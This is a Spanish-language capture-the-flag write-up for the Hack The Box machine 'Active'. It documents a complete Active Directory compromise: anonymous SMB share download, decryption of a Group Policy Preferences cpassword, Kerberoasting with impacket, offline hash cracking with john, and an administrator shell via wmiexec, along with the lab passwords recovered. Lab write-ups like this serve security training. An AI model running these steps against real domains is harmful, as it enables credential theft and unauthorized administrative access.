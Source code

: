 ip -> 10.10.10.100

Ports
-----
```console
└─$ nmap -T5 -Pn -v 10.10.10.100 # -> 53,88,139,135,389,445,464,593,636,3269,3268,5722,9389
└─$ nmap -sCV -T5 10.10.10.100 -Pn -v -p389,445,464,593,636,3269,3268,5722,9389
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: active.htb, Site:e)
3269/tcp open  tcpwrapped
5722/tcp open  msrpc         Microsoft Windows RPC
9389/tcp open  mc-nmf        .NET Message Framing
```

Tenemos un directorio activo por los puertos que hemos encontrado, pero lo mejor será encontrar primero algún 
usaurio para empezar.

Aunque tengamos el puerto 135 no hay mucha suerte:

```console
└─$ rpcclient -U "" 10.10.10.100 -N
rpcclient $> enumdomusers # ->  NT_STATUS_ACCESS_DENIED
```

Puerto 53
---------
El comando dig no me ha reportado ninguna informacion relevante.

Puerto 445 (SMB)
----------------

Investigando, si pone que esta Firmado (signing:True) no se podrán hacer ataques SMBrelays
```console
└─$ crackmapexec smb 10.10.10.100
SMB   10.10.10.100  445  DC  [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True)
└─$ smbclient -L //10.10.10.100/ -N
	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	IPC$            IPC       Remote IPC
	NETLOGON        Disk      Logon server share 
	Replication     Disk      
	SYSVOL          Disk      Logon server share 
	Users           Disk      
└─$ smbclient //10.10.10.100/Replication -N
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```
Nos ha creado la carpeta Active.htb con todos los recursos.

```console
└─$ tree 
.
├── DfsrPrivate
│   ├── ConflictAndDeleted
│   ├── Deleted
│   └── Installing
├── Policies
│   ├── {31B2F340-016D-11D2-945F-00C04FB984F9}
│   │   ├── GPT.INI
│   │   ├── Group Policy
│   │   │   └── GPE.INI
│   │   ├── MACHINE
│   │   │   ├── Microsoft
│   │   │   │   └── Windows NT
│   │   │   │       └── SecEdit
│   │   │   │           └── GptTmpl.inf
│   │   │   ├── Preferences
│   │   │   │   └── Groups
│   │   │   │       └── Groups.xml
│   │   │   └── Registry.pol
│   │   └── USER
│   └── {6AC1786C-016F-11D2-945F-00C04fB984F9}
│       ├── GPT.INI
│       ├── MACHINE
│       │   └── Microsoft
│       │       └── Windows NT
│       │           └── SecEdit
│       │               └── GptTmpl.inf
│       └── USER
└── scripts
```
Hay un montón de cosas, pero el recurso "Groups.xml" es lo critico. Que esté este recurso significa que esto es
una copia del SYSVOL (al original no teniamos acceso pero a esto si). En este archivo está la contraseña 
encriptada del administrador del sistema, (la encriptacion es AES-256, un algoritmo muy fuerte).
El asunto esque si tenemos el hash (cpassword) en el groups.xml podemos romper dicho hash muy rapidamente con el 
cmando gpp ya que microsoft publico la clave de dicho algoritmo en 2012. 

```console
└─$ cd /Policies/{31B2F340-016D-11D2-945F-00C04FB984F9}/MACHINE/Preferences/Groups
└─$ cat Groups.xml
(...)
cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ"
userName="active.htb\SVC_TGS" # -> Para este usario
└─$ gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18  # Esto es la contraseña
```
Vamos a validar este usario 
```
└─$ crackmapexec smb 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18'
SMB         10.10.10.100    445    DC               [*] Windows 6.1 Build 7601 x64 (name:DC) (domain:active.htb) (signing:True) (SMBv1:False)
SMB         10.10.10.100    445    DC               [+] active.htb\SVC_TGS:GPPstillStandingStro
```

Con SMBmap puede acceder ahora con credenciales, a la user.txt 
```console
└─$ smbmap -H 10.10.10.100 -u "SVC_TGS" -p "GPPstillStandingStrong2k18" --download Users/SVC_TGS/Desktop/user.txt
```

Ahora podemos acceder al rpc porque ya tenemos creds.
```console
└─$ rpcclient 10.10.10.100 -U "SVC_TGS%GPPstillStandingStrong2k18"
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4] 
user:[Guest] rid:[0x1f5]    # -> Usuario invitado, por defecto en todos los sistemas
user:[krbtgt] rid:[0x1f6]   # -> usuario creado por el kerberos
user:[SVC_TGS] rid:[0x44f]  # -> Nuestro usaurio actual
rpcclient $> enumdomgroups
group:[Domain Admins] rid:[0x200]
rpcclient $> querygroupmem 0x200
	rid:[0x1f4] attr:[0x7]
rpcclient $> queryuser 0x1f4
	User Name   :	Administrator
rpcclient $> querydispinfo
index: 0xdea RID: 0x1f4 acb: 0x00000210 Account: Administrator	Name: (null)	Desc: Built-in account for administering the computer/domain
index: 0xdeb RID: 0x1f5 acb: 0x00000215 Account: Guest	Name: (null)	Desc: Built-in account for guest access to the computer/domain
index: 0xe19 RID: 0x1f6 acb: 0x00020011 Account: krbtgt	Name: (null)	Desc: Key Distribution Center Service Account
index: 0xeb2 RID: 0x44f acb: 0x00000210 Account: SVC_TGS	Name: SVC_TGS	Desc: (null)
```
Nada interesante, ahora hay que probar con el puerto 88 (kerberos)

```console
└─$ impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb

# Todo el hash
└─$ john hash -w=/usr/share/wordlists/rockyou.txt 
Ticketmaster1968 (?)
└─$ impacket-wmiexec active.htb/administrator:Ticketmaster1968@10.10.10.100
```




